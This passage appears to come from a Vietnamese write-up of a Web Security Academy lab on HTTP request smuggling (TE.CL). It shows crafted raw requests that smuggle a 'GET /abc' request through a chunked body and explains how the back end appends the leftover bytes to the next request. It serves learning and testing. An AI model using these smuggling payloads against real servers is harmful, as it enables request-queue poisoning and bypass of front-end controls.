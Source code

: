```
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0



```

> Lúc này, front-end server hỗ trợ header `Transfer-Encoding` theo kiểu `chunked`, hiểu rằng data chia thành các khối, nên sẽ forward khối có kích thước `9d` (157 kí tự, bắt đầu từ `GET` đến hết kí tự `a`, khi gặp kí tự kết thúc `0` thì dừng):
```
9d
GET /abc HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0



```


>Bên phía back-end sẽ hỗ trỡ header `Content-Length` có kích thước gói tin là `4` nên chỉ lấy phần `9d\r\n`, còn phần thừa sẽ được nối vào request tiếp theo. Cụ thể phần bị thừa:
```
GET /abc HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0



```

>Lúc này, khi ta gửi request tiếp theo sẽ có dạng:
```
GET /abc HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a

GET / HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
.............
```
>Và được chia thành 2 request riêng biệt. Do request ta attack yêu cầu tài nguyên từ đường dẫn `/abc` không tồn tại nên respone trả về là `404 Not Found` do không tìm thấy tài nguyên cần tìm!!
